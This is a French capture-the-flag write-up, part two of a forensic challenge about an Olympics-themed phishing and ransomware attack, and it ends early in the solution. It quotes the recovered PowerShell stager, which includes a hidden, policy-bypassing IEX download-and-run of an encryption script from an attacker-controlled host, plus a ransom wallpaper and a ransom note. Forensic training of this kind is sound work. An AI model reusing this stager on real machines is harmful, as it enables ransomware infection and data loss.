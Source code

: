 # Enquête sur le phishing des JO : Retracer l'attaque 2/2

### Énoncé

Bravo !

Vous voici dans la deuxième partie de votre enquête. Le dump réseau vous a été confié avec une partie de son système de fichiers.

L'utilisatrice à qui appartiennent ces informations, est une scientifique qui travaille sur le chiffrement du système d'information des JO.

Aidez-la à déchiffrer son système de fichiers.

SHA256(Phishing2-1.zip) = EDE0509D4779093EEBDA4B2483B943721F7B1F54801BFEFFF11E39B719D224BE : 202407885 octets
SHA256(Capture.pcapng) = 6D1F223BCC377E1722F8DAE0FB9F2EE397878B87ACA53814D4628562CBF1B933 : 167172844 octets

---

### Résolution

Après avoir investigué le dump mémoire de l’ordinateur de la victime pour comprendre l’origine du phishing, on nous confie un dump réseau et une partie de son système de fichier pour comprendre précisement ce qu’il s’est passé et tenter de le restaurer.
En ouvrant la capture réseau avec Wireshark, on constate qu’un script Powershell est téléchargé en premier et qu’il va initier toute une série d’opérations:

```powershell
...
...
# Le code ci-dessus concernait le challenge 1/2

#Encrypt some file

powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile  -c "& {IEX ((New-Object Net.WebClient).DownloadString('http://$IP_addr/Holmes/Encrypt.ps1'))}"

## Change wallpaper
$webClient = New-Object System.Net.WebClient
$wallpaperUrl = "http://$IP_addr/Holmes/wallpaper.jpg"
$wallpaperPath = "$env:USERPROFILE\Desktop\wallpaper.jpg"
$webClient.DownloadFile($wallpaperUrl, $wallpaperPath)

## Set the wallpaper
$regKey = "HKCU:\Control Panel\Desktop"
Set-ItemProperty -Path $regKey -Name Wallpaper -Value $wallpaperPath
$wallpaperStyle = "3"
Set-ItemProperty -Path $regKey -Name WallpaperStyle -Value $wallpaperStyle
$tileWallpaper = "0"
Set-ItemProperty -Path $regKey -Name TileWallpaper -Value $tileWallpaper

# Forcer l'actualisation du bureau
Start-Process -FilePath "RUNDLL32.EXE" -ArgumentList "USER32.DLL,UpdatePerUserSystemParameters ,1 ,True" -Wait

## Create text file
$fileContent = "YOU HAVE BEEN INFECTED BY THE HAMOR FIND THE KEY TO RETREIVE YOUR FILE"
Set-Content "$env:USERPROFILE\Desktop\instructions.txt" -Value $fileContent
# Open text file
Invoke-Item "$env:USERPROFILE\Desktop\instructions.txt"
```
